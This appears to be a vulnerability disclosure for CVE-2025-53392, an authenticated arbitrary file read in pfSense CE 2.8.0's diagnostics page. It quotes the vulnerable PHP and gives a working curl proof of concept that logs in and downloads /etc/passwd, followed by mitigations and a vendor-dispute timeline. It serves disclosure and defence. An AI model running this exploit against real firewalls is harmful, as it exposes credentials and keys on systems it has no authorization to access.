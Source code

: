 # Arbitrary File Read in pfSense 2.8.0 via Diagnostics Web Interface

#### CVE ID: [`CVE-2025-53392`](https://nvd.nist.gov/vuln/detail/CVE-2025-53392)

#### Date: 2025-06-27

#### Author: Seth Kraft

#### Vendor Homepage: [https://www.netgate.com/](https://www.netgate.com/)

#### Vendor Changelog: [https://docs.netgate.com/pfsense/en/latest/releases/](https://docs.netgate.com/pfsense/en/latest/releases/)

#### Software Link: [https://www.pfsense.org/download/](https://www.pfsense.org/download/)

#### Version: pfSense CE 2.8.0 (latest stable as of June 26, 2025)

#### CWE ID: [`CWE-36`](https://cwe.mitre.org/data/definitions/36.html) (Absolute Path Traversal)

#### Estimated CVSS Base Score: 5.0 (Medium)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:N/A:N`

#### Type: Authenticated Arbitrary File Read / Local File Disclosure

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

pfSense CE 2.8.0 contains a Local File Disclosure vulnerability in the diagnostics page `diag_command.php`, which allows authenticated users to download arbitrary files from the underlying file system.

An attacker with privileged web access can supply an arbitrary path in the `dlPath` parameter to exfiltrate sensitive files. 

This functionality lacks any path sanitization, directory restriction, or access controls beyond permission assignment.

---

## Details

The vulnerable logic is located in the file `src/usr/local/www/diag_command.php`:

```php
if ($_POST['submit'] == "DOWNLOAD" && file_exists($_POST['dlPath'])) {
    session_cache_limiter('public');
    send_user_download('file', $_POST['dlPath']);
}
```

There are no security checks or sanitization measures applied to the user-controlled `dlPath` parameter. 

Any file path the PHP process can read will be served back to the user.

---

## Proof of Concept

**Create `low-priv` group and assign a single privilege** (`WebCfg - Diagnostics: Command`)
![Screenshot 2025-06-27 133201](https://github.com/user-attachments/assets/b1063a5c-442a-4628-ac94-e0fa5d6f10c4)

> I appreciate the built-in security warning related to assigning the `WebCfg - Diagnostics: Command` privilege. But this disclaimer does not constitute as proper access control.
>
> A permission in a web interface should be scoped based on its label and intended use — not assumed to equate to root-level access on the underlying operating system.

**Assign `low-priv` group to** `dev` **user**
![Screenshot 2025-06-27 133218](https://github.com/user-attachments/assets/7224934e-ae31-4aa1-b879-b4f1aee7e00c)

This proof-of-concept demonstrates a user assigned with only `WebCfg - Diagnostics: Command` permission can exfiltrate `/etc/passwd` by abusing the unsanitized `dlPath` parameter.

```bash
# 1. Start session and extract CSRF token
curl -k -c cookies.txt -s https://<IP>/diag_command.php > login_page.html
csrf_token=$(grep '__csrf_magic' login_page.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 2. Authenticate as low-privileged user "dev"
curl -k -b cookies.txt -c cookies.txt \
  -d "__csrf_magic=$csrf_token" \
  -d "usernamefld=dev" \
  -d "passwordfld=pass" \
  -d "login=Sign+In" \
  https://<IP>/index.php > /dev/null

# 3. Get CSRF token post-login
curl -k -b cookies.txt -s https://<IP>/diag_command.php > diag_authed.html
csrf_token=$(grep '__csrf_magic' diag_authed.html | grep 'value=' | sed -E 's/.*value="([^"]+)".*/\1/')

# 4. Exfiltrate arbitrary file (example: /etc/passwd)
curl -k -b cookies.txt -s -X POST https://<IP>/diag_command.php \
  -d "__csrf_magic=$csrf_token" \
  -d "submit=DOWNLOAD" \
  -d "dlPath=/etc/passwd"
```

---

## Demo
![pfSense-authenticated-file-disclosure-poc](https://github.com/user-attachments/assets/0dfe9727-aab4-4b17-bcb9-5a69998549a5)

---

## Impact

Any pfSense user assigned the `WebCfg - Diagnostics: Command` privilege can:

* Read sensitive local system files
* Extract backups, credentials, and keys
* Access files far beyond their intended permissions

This violates the principle of least privilege and breaks logical privilege boundaries.

---

## Suggested Mitigation

1. Restrict `dlPath` to a safe base directory (e.g., `/tmp`) using `realpath()` and prefix enforcement
2. Strip or block paths with `..` or absolute paths
3. Only allow downloads of files in a safelist or temporary artifact directory

---

## Disclosure Timeline

* **2025-06-26:** Vulnerability reported to Netgate
* **2025-06-27:** Netgate responded — dismissing the issue as intended behavior
* **2025-06-27:** Researcher responded with technical rebuttal — vendor reiterated dismissal
* **2025-06-27:** Researcher initiated public disclosure due to final vendor dismissal — requested CVE assignment from MITRE
* **2025-06-28:** MITRE assigned [`CVE-2025-53392`](https://nvd.nist.gov/vuln/detail/CVE-2025-53392) with vendor disputed tag

---

> While the vendor asserts that access to this page equates to root, this conflates web-level permissions with unrestricted backend access.
>
> Privilege should be technically enforced — not assumed — and warnings in the UI are no substitute for secure design.

---

Reviewing pfSense documentation regarding user privileges — I couldn't find any mention of the `WebCfg - Diagnostics: Command` privilege equating to root access.
![Screenshot 2025-06-28 235613](https://github.com/user-attachments/assets/f1da5050-1820-4e81-b8e7-4dbe3735f2c6)

---

The Diagnostics Command page warns about potential misuse, but the vendor documentation does not explicitly associate it with the `WebCfg - Diagnostics: Command privilege` or its root-level impact.
![image](https://github.com/user-attachments/assets/f050cac7-29ed-40f6-9437-972176a5885a)

---

The diagnostics module within the web interface of a firewall must contain proper safeguards to prevent abuse against the underlying operating system.

* Diagnostic commands should be functionally limited to ping, traceroute, log view, etc.
* Commands should run inside a restricted shell or chroot.
* File access should be explicitly scoped to safe directories (/tmp, /var/log).
* Permissions should be fine-grained, and clear in scope.

---
